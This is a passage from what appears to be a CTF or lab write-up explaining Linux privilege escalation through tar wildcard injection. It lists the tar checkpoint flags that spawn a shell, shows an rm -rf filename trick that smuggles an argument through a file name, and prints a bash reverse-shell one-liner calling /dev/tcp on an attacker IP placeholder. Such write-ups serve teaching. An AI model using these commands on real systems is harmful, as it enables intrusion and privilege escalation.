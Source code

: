 <img style="float: left;" src="screenshots/screenshot29.png">

Looking at **GTFOBins**, we can see that we can actually exploit **tar** to spawn a privileged shell. In our case, we need to add in the following tags to the tar command to do so:

* --checkpoint=1
* --checkpoint-action=exec=/bin/sh

As mentioned earlier, the wildcard operator (*) actually allows us to add those tags even though we do not have direct write permissions to the **backup.sh** file. This type of attack is called a **wildcard injection attack**: 

https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/

<br>

---

**Explanation of Wildcard Injection Attack**

Assume we have a directory with the following files: **a.txt**, **b.txt**, **c.txt**.

If we do a ```rm *```, we will delete all of the files within the directory. However, what is actually happening is that the *****  is being expanded to list all of the files. Hence, the actual command being run is ```rm a.txt b.txt c.txt```. 

Hence, if we have a file called **-rf**, the actual command being run will be ```rm -rf a.txt b.txt c.txt```. The **-rf** filename will actually end up being interpreted as a command-line argument! 

With the correct program, this attack can be used to escalate privileges.

---

To execute this attack, we need to create two files: **--checkpoint=1** and **--checkpoint-action=exec=bash\ shell.sh** in the **/var/www/html** directory. Before that, let's first create a bash script that spawns a shell. This bash script will be called **shell.sh** and will be also be in /var/www/html.

```
echo $'#!/bin/bash\nbash -i >& /dev/tcp/YOUR_IP_HERE/4444 0>&1' > shell.sh
```

We use echo to write the script as **vim** and **nano** were unfortunately not cooperating with the terminal.
